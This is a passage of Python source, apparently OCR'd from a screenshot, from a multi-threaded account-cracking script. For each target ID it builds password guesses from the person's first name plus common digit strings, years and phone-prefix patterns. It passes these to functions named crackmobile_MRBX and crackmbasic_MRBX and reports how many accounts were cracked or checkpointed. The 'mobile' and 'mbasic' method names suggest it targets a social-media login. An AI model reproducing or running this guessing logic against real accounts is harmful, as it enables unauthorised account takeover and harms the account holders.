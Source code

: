 					pwv.append("1234567"+frs)
					pwv.append("12345678"+frs)
					pwv.append("123456789"+frs)
					pwv.append(frs+'123321')
					pwv.append(frs+'1122')
					pwv.append(frs+'112233')
					pwv.append(frs+'2023')
					pwv.append(frs+'2022')
					pwv.append(frs+'2021')
					pwv.append(frs+'2020')
					pwv.append(frs+'2008')
					pwv.append(frs+'2007')
					pwv.append(frs+'2006')
					pwv.append(frs+'2005')
					pwv.append(frs+'2004')
					pwv.append(frs+'2003')
					pwv.append(frs+'11223344')
					pwv.append(frs+'1122334455')
					pwv.append(frs+'112233445566')
					pwv.append(frs+frs)
			if 'ya' in pwpluss:
				for xpwd in pwnya:
					pwv.append(xpwd)
			else:pass
			if 'mobile' in method:
				pool.submit(crackmobile_MRBX,idf,pwv,nmf)
			elif 'mbasic' in method:
				pool.submit(crackmbasic_MRBX,idf,pwv,nmf)
			else:
				pool.submit(crackfree,idf,pwv)
	print('')
	print(' \033[1;34m OK = %s '%(ok))
	print('')
	print(' \033[1;37m CP = %s '%(cp))
	print('\033[1;34mBO DUBARA CRACK KRDN [CTRL + P] DAGRA')
	exit()
	
def password2():
	os.system('clear')
	banner()
	print("")
	print(f'\033[1;31m➣ \033[1;37m DATE : '+str(dddd)+'-'+str(mmmm)+'-'+str(yyyy)+'')
	print("\033[1;31m➣ \033[1;37m TOTAL ID : "+str(len(id)))
	print("")
	with tred(max_workers=30) as pool:
		for yuzong in id2:
			idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()
			frs = nmf.split(' ')[0]
			pwv = []
			if len(nmf)<6:
				if len(frs)<3:
					pass
				else:
					pwv.append(nmf)
					pwv.append(frs+'12')
					pwv.append(frs+'123')
					pwv.append(frs+'1234')
					pwv.append(frs+'12345')
					pwv.append(frs+'123456')
					pwv.append(frs+'1234567')
					pwv.append(frs+'1234567890')
					pwv.append(frs+'0750')
					pwv.append(frs+'07500750')
					pwv.append(frs+'0780')